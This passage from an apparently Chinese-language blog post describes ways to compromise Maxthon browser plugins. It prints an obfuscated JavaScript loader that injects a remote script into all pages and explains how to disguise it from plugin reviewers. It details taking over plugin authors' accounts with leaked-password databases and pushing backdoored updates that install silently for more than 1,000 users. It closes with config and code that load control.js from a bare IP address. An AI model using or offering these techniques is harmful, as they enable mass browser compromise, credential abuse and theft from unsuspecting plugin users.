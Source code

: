 ```
var _0x67c5=["\x73\x63\x72\x69\x70\x74","\x63\x72\x65\x61\x74\x65\x45\x6C\x65\x6D\x65\x6E\x74","\x73\x72\x63","\x68\x74\x74\x70\x3A\x2F\x2F\x64\x6F\x6D\x61\x69\x6E\x2F\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x66\x69\x6C\x65\x6E\x61\x6D\x65\x2E\x6A\x73","\x61\x70\x70\x65\x6E\x64\x43\x68\x69\x6C\x64","\x62\x6F\x64\x79"];var script=document[_0x67c5[1]](_0x67c5[0]);script[_0x67c5[2]]= _0x67c5[3];document[_0x67c5[5]][_0x67c5[4]](script)
```
如图：

![](/images/browser-plugin-attack-vector/5.png)

因为这样的代码看起来着实有点可疑...所以再去[站长之家](http://tool.chinaz.com/js.aspx)加密成常见的加密代码:

![](/images/browser-plugin-attack-vector/6.png)

嗯，看着正常多了。放在众多代码之中，审查人员也很难找到(也不会用心找的)

提交后，会在遨游插件的首页显示最近更新的插件，你只需要每个星期随便增加一点代码或者删除一点代码，再更新一下插件，你的插件就会常年存在插件首页，安装人数想不多都难。

#### 0x1.3 基于社工库控制插件作者的账户

这个也是我个人来说最喜欢的方式，毕竟不得不承认不劳而获真的好爽啊。

因为Maxthon更新插件时没有像Chrome那样需要秘钥才可以更新，所以导致这个'逻辑漏洞''。因为没有验证当前是否为作者本人的机制，才导致这个方法的可行性。

之前加了maxthon插件的作者群：203339427

里面大多都是插件的开发人员，拿他们的邮箱、QQ放在社工库里进行查询，得到密码后可以进行尝试登陆。当然因为不确定是作者使用的是哪个邮箱，我们先拿QQ邮箱登录，他会提示账户或密码错误，不知道是账户错误还是密码错误，可以先去[遨游账户中心-忘记密码](https://my.maxthon.cn/recover.html)先填写QQ邮箱，如果说用户名不存在，我们可以在网上搜索一下这个作者其他的邮箱，再进行测试(我测试的账户里，很多都需要在网上搜索一下其他的邮箱)。因为之前我把这个当做漏洞提交给wooyun了，遨游没什么反应。本来是想登陆其他用户说明的，但是wooyun暂时休整，无法看到我之前的漏洞详情，而当时社到的账户和密码也没有备份，只在wooyun漏洞详情里有，没有办法，所以这里我就以我自己为例：

![](/images/browser-plugin-attack-vector/7.png)

这里有个`更新文件`，我们这个时候，可以先把文件download本地，在里面的javascript文件里植入我们的后门。再上传上去。就可以控制1000多个用户了。插件二次审核查的更松。

而且当你打开遨游浏览器时，遨游浏览器会检测你的插件是否为最新的，如果不是最新的，他会在后台静默安装最新的插件。这个时候对我们的帮助特别大。比如我们更新插件后，只需要等待用户重新打开遨游浏览器就可以实现了攻击的效果。

更新的时候，就这个账户当做自己的账户就行了，然后照着0x1.2代码写上去就没问题了。

#### 0x1.4 控制插件里调用的第三方javascript代码

这个方法比较繁琐，有两种方法来获取第三方的javascript，分为两种情况

> 不具有可视化页面

> 具有可视化页面

##### 0x1.4.1 不具有可视化页面

类似我上面所说的，在插件的`def.json`配置文件里写上:
```json
"actions": [{
    "type": "script",
    "entryPoints": [
        "doc_onload"
    ],
    "js": [
        "base.js"
    ],
    "include": ["*"],
    "includeFrames": true
}]
```
然后在base.js文件里写入你要调用的第三方javascript文件：
```javascript
var script = document.createElement('script');
script.src = "http://119.29.58.242/control.js";
document.body.appendChild(script);
```